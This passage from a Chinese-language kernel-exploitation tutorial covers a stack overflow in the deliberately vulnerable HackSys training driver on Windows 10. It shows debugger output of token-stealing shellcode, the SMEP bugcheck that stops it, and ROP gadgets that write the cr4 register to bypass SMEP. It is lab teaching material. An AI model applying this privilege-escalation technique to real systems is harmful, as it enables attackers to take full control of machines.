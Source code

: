 ```
`}`
```

#### <a class="reference-link" name="%E6%8F%90%E6%9D%83%E6%94%BB%E5%87%BB(Win10)"></a>提权攻击(Win10)

然而，如果用上述exp的话，似乎并没有那么顺利。我们调试可以看到如下结果:

```
HackSysExtremeVulnerableDriver!TriggerStackOverflow+0xc8:
9ddf4eaa c9              leave
9ddf4eab c20800          ret     8
;如果从这里执行下去的话，会看到如下的指令
1: kd&gt; t
00f214b0 53              push    ebx
1: kd&gt; u 00f214b0
00f214b0 53              push    ebx
00f214b1 56              push    esi
00f214b2 57              push    edi
00f214b3 60              pushad
00f214b4 33c0            xor     eax,eax
00f214b6 648b8024010000  mov     eax,dword ptr fs:[eax+124h]
00f214bd 8b4050          mov     eax,dword ptr [eax+50h]
00f214c0 8bc8            mov     ecx,eax
```

乍一看好像是成功的，但是如果让程序继续执行的话就会爆出如下的错误:

```
1: kd&gt; t
KDTARGET: Refreshing KD connection

*** Fatal System Error: 0x000000fc
                       (0x00F214B0,0x25EEE125,0xA37449A0,0x80000005)


A fatal system error has occurred.
Debugger entered on first try; Bugcheck callbacks have not been invoked.

A fatal system error has occurred.

```

这个错误码的意思是`ATTEMPTED EXECUTE ON NOEXECUTE MEMORY`，因为从Win 8.1 开始，Windows 就有了一种新的保护措施，叫做`Supervisor Mode Execution Prevention(SMEP)`。在这个保护下，不能在ring 0 的环境中执行 ring 3的代码。到了这个时候，就需要使用一些特殊的手段关闭这个特性。最常见的手段就是利用**ROP**攻击，修改`cr4`寄存器内容。一个常见的函数就是:

```
.text:00401000
...

.text:0048BF1D                 pop     eax
.text:0048BF1E                 retn

KeFlushCurrentTb

.text:0057DF86                 mov     cr4, eax
.text:0057DF89                 retn
; 这里用IDA观察有一个bug(?)，内存中的一些值没有按照真正的值进行映射（也可能是相对偏移的锅？）然后导致一些数据的位置不对。。。最后的偏移量需要动态调试得到
```
